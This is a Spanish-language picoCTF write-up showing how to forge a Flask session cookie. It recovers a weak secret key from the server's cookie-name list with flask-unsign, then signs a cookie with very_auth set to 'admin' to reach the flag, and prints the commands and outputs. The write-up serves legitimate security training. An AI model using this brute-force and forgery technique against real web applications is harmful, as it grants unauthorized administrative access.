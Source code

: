 
# Descripcion
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py) [http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)

## Hints
How secure is a flask cookie?

## Solucion

Lo primero que tenemos que hacer es analizar la pagina web que nos proporciona, el reto, en este caso, es muy parecida a una pagina que ya hemos trabajado. Lo primero que hacemos es escribir en la barra de busqueda 'snickerdoodle'. Una vez que lo escribimos nos damos cuenta que genera una cookie de session:

```
GET /display HTTP/1.1
Host: mercury.picoctf.net:6259
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mercury.picoctf.net:6259/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-n5mg.cmc1I_Y6_nVJD_wkjJKZzWdLA1g
Connection: keep-alive

```

Y ya no tenemos mas informacion. Seguimos en etapa de reconocimiento, por lo que ahora analizamos el codigo en python que proporciona el reto. 
Analizamos el codigo, y me doy cuenta que es el codigo fuente. Con este codigo fuente me doy cuenta como bypassear por medio de la cookie. Lo interesante es este fragmento de codigo:

```
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp



```

En este caso, si decodificamos la cookie (base64) obtenemos `{"very_auth":"snickerdoodle"}` y la firma. Pero como podemos saber con que clave esta firmada la cookie?

El codigo fuente tambien, me da la solucion:

```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

```

Ahora se que alguna de esos nombres de galletas se uso como clave para firmar la cookie.

Hago uso de la herramienta `flask-unsign` para hacer un ataque de fuerza bruta y encontrar la clave con la que se firmo esta cookie.

1. Guardo todas las cookies en un txt
```
flask-unsign --unsign --wordlist cookies.txt --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-n92w.f3kHwYT4rPf7cw-Jv-EKY_ERAns'
```

Este me devuelve la clave con la que se firmo
Salida:
```
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
```

En mi caso `gingersnap` es la clave que se uso para firmar la cookie, ahora por medio de esta clave creo una cookie con el nombre  `admin` y la firmo con la clave.

Hago uso de `flask-unsign`

```
flask-unsign --sign --cookie '{"very_auth": "admin"}' --secret "gingersnap"
```

Obtengo la siguiente salida:

```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-n-HA.Urf59kpxiK2tttrjUFj21wPodd4
```

Ahora, solo modifico la cookie, pegando la salida anterior. Y recargo la pagina:

![[images/flagCookies.png]]

## Referencias
